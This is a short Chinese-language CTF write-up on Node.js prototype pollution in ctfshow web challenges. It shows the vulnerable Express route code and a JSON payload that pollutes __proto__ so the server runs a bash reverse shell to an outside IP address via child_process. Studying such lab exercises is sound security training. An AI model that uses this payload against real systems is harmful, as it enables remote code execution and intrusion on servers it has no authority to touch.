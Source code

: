 ```diff
+  if(secert.ctfshow===flag){
     res.end(flag);
   }else{
     return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  

```

需要污染`ctfshow`的值为flag

在`/api`路由下新增了一个post方法
函数接收一个query参数并返回

```node
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');



/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});

});

module.exports = router;
```


---

污染 query的值

```json
{"username":"admin","password":"admin","__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/115.236.153.174/16806 0>&1\"')"}}
```

然后post访问`/api` 

### web340

```node
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var user = new function(){
    this.userinfo = new function(){
    this.isVIP = false;
    this.isAdmin = false;
    this.isAuthor = false;     
    };
  }
  utils.copy(user.userinfo,req.body);
  if(user.userinfo.isAdmin){
   res.end(flag);
  }else{
   return res.json({ret_code: 2, ret_msg: '登录失败'});  
  }
  
  
});
```
